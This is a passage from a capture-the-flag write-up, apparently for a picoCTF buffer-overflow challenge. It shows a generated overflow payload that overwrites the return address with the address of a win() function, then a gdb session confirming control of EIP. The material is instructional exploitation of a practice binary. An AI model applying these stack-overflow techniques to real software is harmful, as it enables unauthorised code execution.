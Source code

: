 ```bash
    Fault:     0x62616164
[*] EIP: 1650549092
[*] win: 134517398
[*] Payload: b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab\x96\x92\x04\x08'
```

With this simple script we just saved a lot of time. Now why don't we see the affect of this payload we generated in action? We will use gdb to setup a breakpoint at the `win()` function and see if it gets called when we use our payload.

```bash
$ gdb -q vuln
Reading symbols from vuln...
(No debugging symbols found in vuln)
gdb-peda$ b *win
Breakpoint 1 at 0x8049296
```

```bash
gdb-peda$ r < pattern.txt
Starting program: /home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln < pattern.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab��

[----------------------------------registers-----------------------------------]
EAX: 0x75 ('u')
EBX: 0x62616162 ('baab')
ECX: 0xf7e1e9b8 --> 0x0 
EDX: 0x1 
ESI: 0x80493f0 (<__libc_csu_init>:      endbr32)
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x62616163 ('caab')
ESP: 0xffffcf00 (0xffffcf00)
EIP: 0x8049296 (<win>:  endbr32)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8049289 <__do_global_dtors_aux+41>:        lea    esi,[esi+eiz*1+0x0]
   0x8049290 <frame_dummy>:     endbr32 
   0x8049294 <frame_dummy+4>:   jmp    0x8049220 <register_tm_clones>
=> 0x8049296 <win>:     endbr32 
   0x804929a <win+4>:   push   ebp
   0x804929b <win+5>:   mov    ebp,esp
   0x804929d <win+7>:   push   ebx
   0x804929e <win+8>:   sub    esp,0x54
[------------------------------------stack-------------------------------------]
0000| 0xffffcf00 (0xffffcf00)
0004| 0xffffcf04 --> 0xf7fc1678 --> 0xf7ffdbac --> 0xf7fc1790 --> 0xf7ffda40 --> 0x0 
0008| 0xffffcf08 --> 0xf7fc1b40 --> 0xf7c1f2bc ("GLIBC_PRIVATE")
0012| 0xffffcf0c --> 0x3e8 
0016| 0xffffcf10 --> 0xffffcf30 --> 0x1 
0020| 0xffffcf14 --> 0xf7e1cff4 --> 0x21cd8c 
0024| 0xffffcf18 --> 0x0 
0028| 0xffffcf1c --> 0xf7c23295 (add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08049296 in win ()
```
